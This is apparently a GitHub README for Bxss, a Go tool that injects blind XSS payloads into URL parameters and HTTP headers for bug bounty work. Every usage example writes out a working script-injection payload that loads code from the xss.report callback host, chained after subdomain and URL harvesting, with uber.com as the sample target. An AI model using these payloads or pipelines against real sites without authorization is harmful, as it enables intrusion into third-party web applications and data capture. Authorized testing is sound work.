 <h1 align="center">
  <br>
  <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/blinded-drib.png" width="200px" alt="Bxss">
  <br>
  Bxss - Blind XSS Scanner
</h1>

<p align="center">
  <a href="https://github.com/ethicalhackingplayground/bxss/releases/latest">
    <img src="https://img.shields.io/github/v/release/ethicalhackingplayground/bxss?style=flat-square" alt="Version">
  </a>
  <a href="https://github.com/ethicalhackingplayground/bxss/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square" alt="License">
  </a>
  <a href="https://goreportcard.com/report/github.com/ethicalhackingplayground/bxss">
    <img src="https://goreportcard.com/badge/github.com/ethicalhackingplayground/bxss?style=flat-square" alt="Go Report Card">
  </a>
  <a href="https://pkg.go.dev/github.com/ethicalhackingplayground/bxss">
    <img src="https://pkg.go.dev/badge/github.com/ethicalhackingplayground/bxss.svg" alt="Go Reference">
  </a>
</p>

---

## 🚀 Description
Bxss is a high-performance Blind XSS scanner that automates the detection of blind XSS vulnerabilities in web applications.

---

## ✨ Features
- Injects Blind XSS payloads into custom headers & parameters
- Supports multiple HTTP methods (PUT, POST, GET, OPTIONS)
- High-speed scanning with concurrency support
- Easily chainable with other tools
- Simple installation and usage

---

## 🧪 Experimental Features
- Trace mode (experimental)

---

## 📦 Installation
```bash
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

---

## ⚙️ Arguments

| Argument       | Description                                             | Default  |
| ------------- | -------------------------------------------------------- | -------- |
| `-a`          | Append the payload to the parameter                      | `false`  |
| `-c int`      | Set the concurrency level                                | `30`     |
| `-H string`   | Set a custom header                                      | `""`     |
| `-hf string`  | Path to file with headers                                | `""`     |
| `-p string`   | The blind XSS payload                                    | `""`     |
| `-pf string`  | Path to file with payloads                               | `""`     |
| `-t`          | Test parameters for blind XSS                            | `false`  |
| `-X string`   | HTTP method to use                                       | `""`  |
| `-v`          | Enable debug mode                                        | `false`  |
| `-rl float`   | Rate limit (requests per second)                         | `0`      |
| `-f`          | Follow redirects                                         | `false`  |
| `-l`          | Enable Trace Mode (experimental)                          | `false`  |
---

## 🎬 Demonstration
<p align="center">
  <a href="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm">
    <img src="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm.svg" alt="Demo">
  </a>
</p>

---

## 📝 What is Trace mode?
Trace mode is an experimental feature that allows you to track where the BlindXSS got triggered, some third party BlindXSS platforms such as [https://xss.report/](https://xss.report/) allows you to specify custom parameters in you're payloads, this allows you to track where the BlindXSS got triggered, for example if you specify the parameter `url=https://somehost.com` in your payload, the tool will use the payload 
```js
'"><script src=https://xss.report/c/username?url=https://somehost.com></script>`
```
for testing and upon a trigger you will be able to inspect the DOM and see what host the BlindXSS got triggered from.

 <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/xss.report.png" alt="Xss Report">

Make sure when assigning custom parameters in you're dashboard that you assign `url={LINK}` so bxss can automatically replace `{LINK}` with the actual URL. 

## 🔥 Usage Examples

### Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-t
```

### Append To Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -a -p '><script src=https://xss.report/c/username></script>' \
-t
```

### Both Headers & Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \
-t
```

### X-Forwarded-For Header
```bash
subfinder -d uber.com \
| gau \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "X-Forwarded-For"
```

### Custom Headers & Parameters
```bash
echo uber.com \
| haktrails subdomains \
| httpx \
| hakrawler -u \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \
-t
```

### Google Dorks With Dorki
```bash
curl -X GET -H "Authorization: Bearer <Token>" \
-H "X-Secret-Key: <Secret>" \
https://dorki.attaxa.com/api/search?q=site:example.com -s \
| jq -r .[][].url \
| grep "&" \
| bxss -a -p '><script src=https://xss.report/c/username></script>'
```

### Custom Headers & Parameters With Rate Limit
```bash
echo uber.com \
| haktrails subdomains \
| httpx \
| hakrawler -u \
| bxss -a -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \ 
-t \
-rl 10
```

For advanced dorking and vulnerability exploration, check out [Dorki](https://dorki.attaxa.com/) and sign up today!

---

## ☕ Support the Project
If you get a bounty using this tool, consider supporting by buying me a coffee!

<p align="center">
  <a href="https://buymeacoffee.com/zoidsec" target="_blank">
    <img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;">
  </a>
</p>

